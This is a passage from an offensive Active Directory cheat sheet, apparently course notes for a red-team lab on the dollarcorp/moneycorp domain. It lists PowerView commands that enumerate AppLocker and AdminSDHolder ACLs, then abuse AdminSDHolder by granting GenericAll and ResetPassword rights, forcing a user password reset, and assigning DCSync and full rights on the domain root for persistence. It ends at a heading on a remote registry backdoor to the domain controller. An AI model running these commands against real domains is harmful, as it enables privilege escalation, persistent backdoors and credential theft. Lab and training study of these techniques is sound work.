     ```powershell
    Get-AppLockerPolicy -Effective  | select -ExpandProperty RuleCollections
    
    ```
    

**AdminSDHolder**

- Get the ACLs defines on the AdminSDHolder object
    
    ```powershell
    Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" -ResolveGUIDs | select AccessControlType, IdentityReference, ActiveDirectoryRights
    
    ```
    
- Assign GenericAll rights to current (User01) account on AdminSDHolder container
    
    ```powershell
    Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=system" -PrincipalSamAccountName User01 -Rights All -verbose
    
    ```
    
- Assign ResetPassword rights to (User01) account on AdminSDHolder container
    
    ```powershell
    Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=System" -PrincipalSamAccountName student379  -Rights ResetPassword -verbose
    
    Set-DomainUserPassword -Identity testuser -AccountPassword (ConvertTo-SecureString "Pass@123" -AsPlainText -Force) -Verbose
    
    ```
    
- Check if "User01" has any ACL set on "Domain Admins" group
    
    ```powershell
    Get-ObjectAcl -SamAccountName "Domain Admins"  | ?{$_.IdentityReference -like "*User01*"}
    
    ```
    
- Assign DCSync right to "User01" on the current domain
    
    ```powershell
    Add-ObjectAcl -TargetADSpath "DC=dollarcorp,DC=moneycorp,DC=local" -PrincipalSamAccountName User01 -Rights DCSync -Verbose
    
    ```
    
- Assign Full rights to the root domain
    
    ```powershell
    Add-ObjectAcl -TargetADSpath "DC=dollarcorp,DC=moneycorp,DC=local" -PrincipalSamAccountName User01 -Rights ALL -Verbose
    
    ```
    

**ACL - Security Descriptors & Remote Registry**

- Add remote registery backdoor to access the DC without admin rights
    